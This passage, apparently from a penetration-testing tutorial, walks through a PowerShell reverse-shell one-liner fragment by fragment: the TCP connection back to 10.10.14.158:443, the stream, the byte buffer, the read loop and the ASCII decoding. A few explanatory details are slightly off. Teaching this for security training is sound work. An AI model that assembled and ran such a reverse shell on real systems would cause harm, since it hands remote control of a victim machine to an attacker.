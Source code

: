 Alright, so basically, you're using `powershell.exe` without any profile settings (`nop`) and then running a command or script (`-c`) inside the quotes. This whole thing is done from the command prompt, which is why PowerShell starts the command. Knowing this is handy if we find a Remote Code Execution issue that lets us run commands straight in `cmd.exe`.

#### Binding A Socket


```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```

Alright, so we're setting this thing called `$client` to be a new object made by the `New-Object` cmdlet. This object is from the .NET framework and it's specifically for handling TCP connections. We're using it to connect to a TCP socket at the address 10.10.14.158 on port 443. The semi-colon at the end just makes sure everything runs in order.

#### Setting The Command Stream


```cmd-session
$stream = $client.GetStream();
```

Alright, so we're setting this thing called `$stream` to be the same as `$client` and then using this .NET framework method called `GetStream`. This helps with network communications. And the semi-colon at the end makes sure everything runs in order.
#### Empty Byte Stream

```cmd-session
[byte[]]$bytes = 0..65535|%{0};
```

Alright, so we're making a byte array named `$bytes` that's filled with 65,535 zeros. Think of it like a blank slate or an empty pipeline that'll be sent to a listening TCP server on some target machine waiting for a connection.

#### Stream Parameters


```cmd-session
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

Keep a loop running with `$i` set to the result of the .NET framework's `$stream.Read` method. Inside the parentheses, you'll need to specify the buffer (`$bytes`), the offset (`0`), and the count (`$bytes.Length`).
#### Set The Byte Encoding


```cmd-session
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

Alright, so we're setting this thing called `$data` to this ASCII encoding class from the .NET framework. We're gonna use it with the `GetString` method to turn our byte stream (`$bytes`) into readable ASCII text. Basically, instead of just sending and receiving raw bits, we're making sure what we type gets turned into proper ASCII text. And the semi-colon (`;`) makes sure all our commands and code run one after the other.
